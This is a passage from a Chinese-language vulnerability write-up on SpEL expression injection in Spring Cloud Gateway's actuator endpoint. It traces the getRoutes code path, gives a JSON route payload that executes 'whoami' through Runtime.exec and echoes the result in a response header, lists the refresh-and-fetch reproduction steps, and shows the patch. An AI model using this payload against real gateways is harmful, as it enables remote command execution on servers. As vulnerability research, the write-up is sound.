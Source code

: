 这里调用了CompositeRouteLocator的getRoutes方法，跟进一下

![image-20220407231727847](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407231727847.png)

然后看到来到了刚才的getRoutes方法

所以这里漏洞形成的大致思路就是，Spring Cloud Gateway可以自己添加一个恶意路由，在通过访问/actuator/gateway/refresh来刷新路由，然后是添加的路由生效，调用了getRoutes方法，因为添加的路由带有filter或者predicates的恶意args参数，让对应的`properties`赋值，可以对Spel解析的表达式进行控制，从而导致了Spel表达式注入

其实在GatewayControllerEndpoint.class中可以看到

![image-20220407233235194](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407233235194.png)

通过get访问新添加的路由也可以直接调用getRoutes而且会显示路由信息，那不就可以显示Spel表达式执行后的值了吗？但是也需要提前refresh刷新路由，不过这样有另外的作用，如果构建的是命令回显的payload，可以直接访问得到回显结果

# 命令回显复现

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

主要还是构造命令回显的payload

接下来通过refresh刷新一下路由

再访问`http://localhost:8081/actuator/gateway/routes/test`检索路由信息

![image-20220407234312144](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407234312144.png)

这里如果检索的时候报错了，可以访问`http://localhost:8081/actuator/gateway/routes`来得到全部路由的值

![image-20220407234355534](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407234355534.png)

# 补丁分析

```
if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
    // 修复前
    StandardEvaluationContext context = new StandardEvaluationContext();
    // 修复后
    GatewayEvaluationContext context = new GatewayEvaluationContext(new BeanFactoryResolver(beanFactory));
    // ...
}
```
